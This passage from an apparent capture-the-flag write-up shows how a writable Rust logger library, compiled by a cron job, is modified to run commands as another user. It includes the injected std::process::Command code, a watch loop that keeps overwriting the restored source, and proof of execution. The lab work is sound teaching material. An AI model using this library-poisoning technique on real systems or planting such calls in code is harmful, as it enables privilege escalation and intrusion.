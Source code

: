 It included a local library, and I was able to write to the source file of this library.

```bash
silentobserver@sandworm:~$ ls -l /opt/crates/logger/
total 24
-rw-r--r-- 1 atlas silentobserver 11644 May  4 17:11 Cargo.lock
-rw-r--r-- 1 atlas silentobserver   190 May  4 17:08 Cargo.toml
drwxrwxr-x 2 atlas silentobserver  4096 May  4 17:12 src
drwxrwxr-x 3 atlas silentobserver  4096 May  4 17:08 target

silentobserver@sandworm:~$ ls -l /opt/crates/logger/src/
total 4
-rw-rw-r-- 1 atlas silentobserver 732 May  4 17:12 lib.rs
```

To validate that I could use it, I modify the logger source code to create a file in `/tmp`. I used [Command](https://doc.rust-lang.org/std/process/struct.Command.html) to run instructions on the server.


```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
        Command::new("touch")
        .args(["/tmp/pwn"])
        .spawn()
        .expect("pwn command failed to start");


    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);
...
```

My first attempt failed. Some script was overwriting my changes. I copied the original file in my home folder and modified the copy. Then I used `watch` to overwrite the original source file with my copy every second.

```bash
watch -n1 -d cp ~/lib.rs /opt/crates/logger/src/lib.rs
```

I waited for the cron to run. When it did, a new file appeared in `/tmp`.

```bash
silentobserver@sandworm:~$ ls -ltr /tmp/
total 20
drwx------ 3 root  root  4096 Sep  4 11:42 systemd-private-d00baca0a019457d8da685debcebb650-systemd-resolved.service-eeJseY
drwx------ 3 root  root  4096 Sep  4 11:42 systemd-private-d00baca0a019457d8da685debcebb650-systemd-timesyncd.service-4zJ9OS
drwx------ 3 root  root  4096 Sep  4 11:42 systemd-private-d00baca0a019457d8da685debcebb650-systemd-logind.service-GRcAPR
drwx------ 3 root  root  4096 Sep  4 11:42 systemd-private-d00baca0a019457d8da685debcebb650-ModemManager.service-B7NLVN
drwx------ 2 root  root  4096 Sep  4 11:43 vmware-root_818-2957124693
-rw-rw-r-- 1 atlas atlas    0 Sep  4 13:42 pwn
```
